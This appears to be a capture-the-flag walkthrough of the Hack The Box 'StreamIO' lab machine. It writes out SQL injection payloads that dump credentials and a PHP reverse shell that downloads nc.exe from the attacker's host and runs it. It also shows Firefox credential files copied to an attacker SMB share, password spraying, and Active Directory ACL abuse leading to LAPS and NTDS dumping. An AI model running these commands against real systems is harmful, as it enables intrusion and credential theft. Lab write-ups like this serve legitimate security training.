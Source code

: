 # [StreamIO](https://app.hackthebox.com/machines/streamio)

```bash
nmap -p- --min-rate 10000 10.10.11.158 -Pn
```

![Alt text](img/image.png)

After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,88,135,139,489,443,445,464,593,636,3268,3269,5985,9389 10.10.11.158
```

![Alt text](img/image-1.png)


I added ip address into my '/etc/hosts' file as '**streamio.htb**'.



Let's do subdomain enumeration.
```bash
wfuzz -u https://streamio.htb -H "Host: FUZZ.streamio.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hh 315   
```

![Alt text](img/image-2.png)


I also added `watch.streamio.htb` into '/etc/hosts' file.

![Alt text](img/image-3.png)


Let's fuzz web application to inject some payloads. I found `search.php`.

![Alt text](img/image-4.png)


Let's do SQL Injection
```bash
abcd' union select 1,2,3,4,5,6;-- -
```

![Alt text](img/image-5.png)


Let's modify this SQLI manually.
```bash
abcd' union select 1,name,id,4,5,6 from streamio..syscolumns where id in (885578193,901578250);-- -
```

![Alt text](img/image-6.png)

Now, I got username and password list from users table.
```bash
abcd' union select 1,concat(username,':',password),3,4,5,6 from users;-- -
```

![Alt text](img/image-7.png)


I got all usernames and passwords from here, to brute-force `admin.php` side of application.

![Alt text](img/image-8.png)

admin:paddpadd
yoshihide:66boysandgirls..


While I login via `yoshihide` account, I can browse **'Admin Panel'**

![Alt text](img/image-9.png)


Now, I just search valid parameters for actions that Admin user can do. (need to add cookie header)
```bash
wfuzz -u https://streamio.htb/admin/?FUZZ= -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=1gjelvhioc1ckvb9c1kedva6r4"  --hh 1678
```

![Alt text](img/image-10.png)


While browsing below url for `debug` parameter, I can see base64 encoded version of source code.
`url=https://streamio.htb/admin/?debug=php://filter/convert.base64-encode/resource=master.php`

![Alt text](img/image-11.png)


I see most dangerous part here, that `eval` function is used, it means we can do RCE or LFI & RFI.

![Alt text](img/image-12.png)


Let's check this.

![Alt text](img/image-13.png)


I can see from port (80). `nc -nlvp 80`

![Alt text](img/image-14.png)


Now, let's create malicious revshell and serve this on http server.

1.Create malicious reverse shell script (dr4ks.php) as below.
```bash
system("powershell -c wget http://10.10.16.6:8080/nc.exe -outfile \\programdata\\nc.exe");
system("\\programdata\\nc.exe -e powershell 10.10.16.6 1337");
```
![Alt text](img/image-15.png)

2.Then, open http server .
```bash
python3 -m http.server --bind 10.10.16.6 8080
```

![Alt text](img/image-16.png)

After submiting value into POST request as below.

![Alt text](img/image-17.png)


I got reverse shell from port (1337).

![Alt text](img/image-18.png)


I searched files which contain `database` string as below.
```bash
dir -recurse *.php | select-string -pattern "database"
```

![Alt text](img/image-19.png)


Let's look at the tables via `sqlcmd` command.
```bash
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select table_name from streamio_backup.information_schema.tables;"
```

![Alt text](img/image-20.png)


Now, I change query to read from `users` table.

```bash
sqlcmd -S localhost -U db_admin -P B1@hx31234567890 -d streamio_backup -Q "select * from users;"
```

![Alt text](img/image-21.png)


I crack these hashes via [Crackstation](https://crackstation.net)

![Alt text](img/image-22.png)

Here's my users.txt and passwords.txt file.

Let's use `crackmapexec` tool to find correct credentials.

```bash
crackmapexec smb 10.10.11.158 -u users.txt -p passwords.txt --continue-on-success --no-bruteforce
```

![Alt text](img/image-23.png)


I found credentials.


nikk37:get_dem_girls2@yahoo.com


Let's connect to Winrm via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.11.158 -u nikk37 -p 'get_dem_girls2@yahoo.com'
```

user.txt

![Alt text](img/image-24.png)


After enumeration, I found stored credentials `key4.db and logins.json` file for user in Firefox's directory.

![Alt text](img/image-25.png)


1.To grab these files, I need to open SMB server.
```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share . -smb2support
```

![Alt text](img/image-27.png)

2.Then, use `copy` command to send files into my machine.
```bash
copy key4.db \\10.10.16.6\share\
copy logins.json \\10.10.16.6\share\
```

![Alt text](img/image-26.png)


I use this tool called [Firepwd](https://github.com/lclevy/firepwd).

```bash
python3 firepwd.py
```

![Alt text](img/image-28.png)


Here's my users.txt and passwords.txt file.

![Alt text](img/image-29.png)


Let's use `crackmapexec` tool to find correct credentials.

```bash
crackmapexec smb 10.10.11.158 -u users.txt -p passwords.txt --continue-on-success
```

![Alt text](img/image-30.png)

I found correct credentials.

JDgodd:JDg0dd1s@d0p3cr3@t0r


Let's use this domain account to dump all Active Directory.

```bash
bloodhound-python -c All -u jdgodd -p 'JDg0dd1s@d0p3cr3@t0r' -ns 10.10.11.158 -d streamio.htb -dc streamio.htb --zip
```

![Alt text](img/image-31.png)


My user has 'WriteOwner' privilege for 'Core STAFF' Domain Group.

![Alt text](img/image-32.png)


And this Domain Group has privilege to read 'LAPS_Password'.

![Alt text](img/image-33.png)


I need to add my user into 'Core Staff' Group to read LAPS password.

For this, I will use [Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) script.


I do this via `evil-winrm`.

```bash
upload PowerViews.ps1
. .\PowerView.ps1
$pass = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "Core Staff" -PrincipalIdentity "streamio\JDgodd"
Add-DomainGroupMember -Credential $cred -Identity "Core Staff" -Members "StreamIO\JDgodd"
```

![Alt text](img/image-34.png)

We can check via `net user JDgodd` command.

![Alt text](img/image-35.png)


Hola, it worked.


We use `crackmapexec` tool to dump LAPS password or NTDS data.
```bash
crackmapexec smb 10.10.11.158 -u JDgodd -p 'JDg0dd1s@d0p3cr3@t0r' --laps --ntds
```

![Alt text](img/image-36.png)


administrator:4a-Z2a4@f0#r6s


root.txt

![Alt text](img/image-37.png)